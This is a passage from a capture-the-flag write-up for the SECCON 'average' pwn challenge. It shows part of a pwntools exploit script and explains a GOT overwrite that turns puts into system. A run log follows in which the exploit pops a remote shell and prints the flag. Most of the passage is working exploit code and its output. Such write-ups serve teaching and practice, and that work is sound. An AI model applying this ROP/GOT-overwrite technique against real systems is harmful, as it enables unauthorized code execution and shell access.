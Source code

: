 ```python

for i in payload: assert(-123456789 <= i <= 123456789)

n = len(payload)
log.info('n: {n}'.format(n = n))

p.sendlineafter(b': ',str(n).encode())
for i in payload: p.sendlineafter(b': ',str(i).encode())
p.recvuntil(b'Average')
p.recvline()

p.sendline(str(libc.sym.system).encode())
p.sendline(str(int('0x' + hexlify(b'/bin/sh'[::-1]).decode(),16)).encode())
p.interactive()
```

The second pass is like the first, but with a different ROP chain, so I'll just cover that.

libc, `system`, etc... are larger than `123456789`, so if we naively try to just write out _pop rdi location of /bin/sh call system_, we'll be rejected with `too large`.

So, we'll just call `scanf` from the GOT to read in the location of `system` into the `puts` GOT entry, so that future calls to `puts` will be `system`, then do that a second time to put the string `/bin/sh\0` into the BSS (scratch space), then just called it with `puts`.

There are numerous ways to solve this, this is just _a_ way.

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to average.quals.seccon.jp on port 1234: Done
[*] n: 25
[*] libc.address: 0x7f3f51c33000
[*] n: 37
[*] Switching to interactive mode
$ id
uid=1000(average) gid=1000(average) groups=1000(average)
$ cat flag.txt
SECCON{M4k3_My_4bi1i7i3s_4v3r4g3_in_7h3_N3x7_Lif3_cpwWz9jpoCmKYBvf}
```
